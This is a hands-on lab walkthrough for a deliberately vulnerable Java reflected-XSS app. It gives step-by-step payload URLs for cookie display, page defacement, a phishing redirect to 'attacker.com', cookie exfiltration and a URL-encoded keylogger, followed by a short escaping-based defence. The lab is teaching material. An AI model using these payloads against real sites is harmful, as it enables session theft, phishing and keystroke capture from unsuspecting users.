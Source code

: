 ### Reflected XSS
---

## Introduction XSS

When looking at XSS (Cross-Site Scripting), there are three generally recognized forms of XSS:

1 . Reflected or Stored
2 . DOM Based XSS.

Cross-site scripting (or XSS) is a code vulnerability that occurs when an attacker “injects” a malicious script into an otherwise trusted website. The injected script gets downloaded and executed by the end user’s browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a legitimate script.

## Owasp

https://owasp.org/www-community/attacks/xss/

#### **Lab Image : Java ReflectedXSS**

## Attack

* Step 1: Open browser and go to url

    ```
    http://localhost
    ```

    > **Note:** Replace `localhost` with your server url

* Step 2: Change to directory 

    ```
    cd /root/reflected-xss
    ```

* Step 3: Build the project

    ```
    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -p 8080:8080  -w /usr/src/mymaven maven:3.3-jdk-8 mvn package
    ```

* Step 4: Now start the app

    ```
    docker-compose up -d
    ```

* Step 5: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/index.jsp
    ```

    > **Note:** Replace `localhost` with your server ip


![0.png](0.png)

![00.png](00.png)


* Step 6: Perform a normal activity

    ```
    http://localhost:8888/ReflectedXSS/index.jsp?name=MHN
    ```
    

* Step 7: Try these payloads to perform a XSS attack
    

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>alert(document.cookie)</script>
        ```            


    * To deface a website
      
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Edocument.body.innerHTML%3D%22%3Ch1%3EYou%20have%20been%20hacked%3C%2Fh1%3E%3Cimg%20src%3D'https%3A%2F%2Fimages.fineartamerica.com%2Fimages%2Fartworkimages%2Fmediumlarge%2F2%2Fheath-ledger-joker-portrait-madura-venkatachalam.jpg'%2F%3E%22%3C%2Fscript%3E
        ```
            
        
    * To perform phishing
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>window.location="http://attacker.com/gmail.html"</script>
        ```
    
    * To steal cookie
    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=<script>var a=new XMLHttpRequest();a.open("GET","http://localhost:9000/?domain="+document.cookie);a.send();</script>
        -------------------------------------
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3Evar%20a%3Dnew%20XMLHttpRequest()%3Ba.open(%22GET%22%2C%22http%3A%2F%2Flocalhost%3A9000%2F%3Fdomain%3D%22%2Bdocument.cookie)%3Ba.send()%3B%3C%2Fscript%3E
        ```
        
    * To Perform keylogging
​    
        ```
        http://localhost:8888/ReflectedXSS/index.jsp?name=%3Cscript%3E%0Adocument.addEventListener(%22keyup%22%2C%20function(e)%7B%0A%09var%20x%20%3D%20new%20XMLHttpRequest()%3B%0A%09var%20url%20%3D%20%22http%3A%2F%2Flocalhost%3A9000%3F%22%2Be.key%0A%09x.open(%22GET%22%2Curl%20%2C%20true)%3B%0A%09x.send()%3B%0A%7D)%3B%0A%3C%2Fscript%3E
        ```
## Defend

* Step 0: Add Library to pom.xml and escape 


![2.png](2.png)

![1.png](1.png)

![3.png](3.png)


* Step 1: Now browse to url

    ```
    http://localhost:8888/ReflectedXSS/secure.jsp?name=MHN
    ```

    > **Note:** Replace `localhost` with your server ip

* Step 2: Try these payloads to perform various XSS attacks

    * To gain sensitive information

        ```
        http://localhost:8888/ReflectedXSS/secure.jsp?name=%3Cscript%3Ealert(document.cookie)%3C/script%3E
        ```
        

    This should encoded and should render as normal html



